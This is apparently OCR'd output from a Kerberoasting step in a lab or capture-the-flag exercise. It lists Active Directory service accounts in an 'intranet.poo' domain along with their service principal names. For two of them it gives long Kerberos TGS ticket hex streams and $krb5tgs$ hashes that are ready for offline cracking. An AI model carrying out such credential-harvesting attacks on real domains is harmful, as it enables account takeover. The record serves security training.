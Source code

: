     03A3EB7A195C77B4055C0F1280620C4053885A93A4C789D619D1294B7206CFA3F242476143717CDF5E8B8B5FBDC6E9CF
    F1D9DAFC90605438ADEC3520A91A529A5117218877FCB89DC2A87F76999F3A4F7F4A63D64061380E817432BA8BA3B0C7
    1C3C84EB8EF02930EDCA11B008716E3A0FE6F62634CA126B6BD06AF2E015DEDCD394440B0F8744EE8BA8FC3C55F3D2D4
    3280E62511F9FEC2EBC009B90CDBBC257363613B837825CFF32A4F97B657ADE4686658B31AE48691F767B07534353F2F
    FB47F975ED6FBF38041CEECA395EDE803EF9C32F391D8DA4139F6271921F770FC3997BD4EEB9B8C8C14E10D14232C2C4
    0C6D3540A92912733A464DB22CFF699E7881A4ABDA30916C546D1B54B015E1347F92DDE8301E5ADD9F07535C4312DF73
    677F15DF89DC7532B631E3730846991D55429128D05A8717E892A7FBA38086B501F3CE6109A8E8470FE5917E77D936B6
    3F1212BC193A1EF3EF37AFCE5BD02E20CE3D8C3D756F57416025F9BF157D4D284DC48662D4E3DDCF4958B5F1AB1D4EDF
    344D1B5D5AE73F558FBD0681712EDC3A336ADD3D755DB210B1519CF309335FE50D971ADA2A6F13C0494CE8F75677A62C
    37C9C917A2C3575F2C4D6767644E2583A1854880D3E13C7C54B3593994C0DF79F20C21E3DD2D7514CFA3EB16E3657407
    000740F3A35BF3DE4965F62CF1E617ED850DEA23DE5C624A89C3204FA067B3EBC48C499E4A56B9298AA862DAF58894FF
    7301206A60633FDDE80D59C4D97FDF42915206762A0EB1F52C3388EDD5D704448F2B51FB796EF0A60A8168F59C63A
    SamAccountName       : p00_hr
    DistinguishedName    : CN=p00_hr,CN=Users,DC=intranet,DC=poo
    ServicePrincipalName : HR_peoplesoft/intranet.poo:1433
    NULL
    TicketByteHexStream  :
    Hash                 : $krb5tgs$23$*p00_adm$intranet.poo$cyber_audit/intranet.poo:443*$A4E0C3EAFB451D4D9F965EA3A985EEBC
    $0232185FAEC205E5B5BE9821F00828CA5B5A233C74F5685FBB87C39F9ED45C53977050125F4554AD7379299C1B643B3
    3E38BB0DEC72FA7C3F44B4E34F82B76E5728E62CD35F2AA3D464217C354FD90CF9AE973122106BFAF46EE90398AE7BDE
    DE606B419223AB59A2C41B2715C6025503ADD7A0247FFE97A7BE39481268378A272C590E4681E9F6F3F5B29FD5CAF831
    C8E6931581A1054BCF3B9575A1648E1B35CC12AC752AD043A48CF12AAA909160CF1CA9F6C67BFA21D9EED5C0AEAC65D5
    127972FB63EF0D2D62F7506E8BE4845B141BA3F792EE457623302802E1995B1F73D9250EBA681337104EF0D588CEFBB6
    CCB619F37E0CDE0603CDED958CC497D56A3FBA12468A917D05A27B910DAAF704FD1B788CF6F46B7030861EF6619475BA
    70258C4B2A55D22DAFB56AA06D6023EDD0E757742960DEAB4A6FCBAC9BD53821B1CF68A1753364CC7C2108CCB8813F68
    F3FB4B4146EAB929E2BF0F51B6F6EAE7E79B93B19376E6F9EB2C8CE3DCAF1EC7355893C28E750DDB55DBD06ED985D736
    C94780582A245D0B5D0D6550FED5A0CCA455C27044B5D3507A01F37A749D00D130DBAF24D6868DF815DFD83BD259027D
    59490BC46BC35924BE22614280BC7D83915B823E3BCA95EBE436CB1E25F0D0E977CD496BC7739633702CC2389A2F1D95
    631BD86AEDE3149EA4519FF4EE1AAD6703425FAAA71A9863D3658759B3FB4771BD903A08D3C5904A2AFD32067576D9FC
    505C35262BB6449908D20446A4DBFD4259740CD1029473A69853ADB9BDCD7C7B5338CBA7B1512479ED5BB11EEA14CD28
    49B20D8E25079B5C1903F4E96A17B2BA4E31F81A6CE6974DF59412A27E3895055F89F39375AA522AB2F8CE3E8288C3CB
    86F582021CFF5515AC1A210682F5529613EE98866D87FEE5751FDDAF3976F5005C84F7A3957475701025DEEF85986E3C
    6EA0AA366AE8C0E7CF2C893D39E0044501FF8CF215621B996AA5A6C635D55726A89B85E324F876CDDED17C9E21A254BF
    36C1A39C02E00D2D6107B1A7A1F7866CBDDD73A322D3D28EB636BC28A860E6407AF9752B02ED2E3AA70471AC5EB4568B
    2C959AB638C8D731296C5F935215CF87A6EDF45E971E6B32C11BB1BB42850F5CA81DA80C0C95F7963B942634E1320D14
    6C35D24C8A8FDA030CC6FF7EB0FB407FAB84FFE5634E1D2250F9D9551392B5946FF6250E9A54545EBE454F2558529A09
    151CF8D7AEB2DF16EE44491E2CAB0D227D1AB0FFDCE2514E1F73E38B6C719F112A47D54190B67C98D8A66091AF0D6934
    57A7D14FC88C1B21C2CA26131CDF73D2F15E49E696CF28E48A17F78EF6B9F9403D8470FE41DCA4A3B222A9786C8CB4CE
    404EDFA0CCDEE0A6244FB8EB06791F82FFDC068E4E1D65FBC443EAD109A0DB8E396CBD5C894D66023C699561DEB69F66
    89D60E0177467DE72B73201505BC4091D6FE69CE49C016E400F110A6481DDCB396710E25DA5D9BA500EAF611ADB
    SamAccountName       : p00_adm
    DistinguishedName    : CN=p00_adm,CN=Users,DC=intranet,DC=poo
    ServicePrincipalName : cyber_audit/intranet.poo:443
    NULL
    NULL
    NULL
    NULL



Two accounts returned hashes.
